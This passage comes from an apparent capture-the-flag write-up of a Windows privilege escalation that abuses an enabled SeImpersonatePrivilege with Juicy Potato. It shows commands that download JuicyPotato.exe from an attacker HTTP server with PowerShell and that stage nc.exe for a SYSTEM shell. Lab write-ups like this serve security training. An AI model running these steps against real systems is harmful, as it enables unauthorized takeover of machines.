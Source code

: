 ```shell
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Oh! We found something interesting!

**The `SeImpersonatePrivilege` is enabled!!**

**That being said, we can use some `potatoes.exe` to escalate our privilege to `NT AUTHORITY\SYSTEM`!!**

Since the machine's Windows 10 build version (10586) is < Windows 10 1809, I'll use [Juicy Potato](https://github.com/ohpe/juicy-potato).

- Transfer the potato binary:

```shell
┌[siunam♥earth]-(/opt/juicy-potato)-[2023.05.26|16:33:28(HKT)]-[git://master ✗]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
c:\Users\kohsuke\Desktop>powershell iwr -Uri http://10.10.14.26/JuicyPotato.exe -OutFile JuicyPotato.exe
c:\Users\kohsuke\Desktop>.\JuicyPotato.exe
.\JuicyPotato.exe
JuicyPotato v0.1 

Mandatory args: 
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args: 
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

**Execute JuicyPotato to get a SYSTEM privilege shell:**

- Transfer `nc.exe` binary to the target machine:

```shell
┌[siunam♥earth]-(/usr/share/windows-resources/binaries)-[2023.05.26|16:45:56(HKT)]
└> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
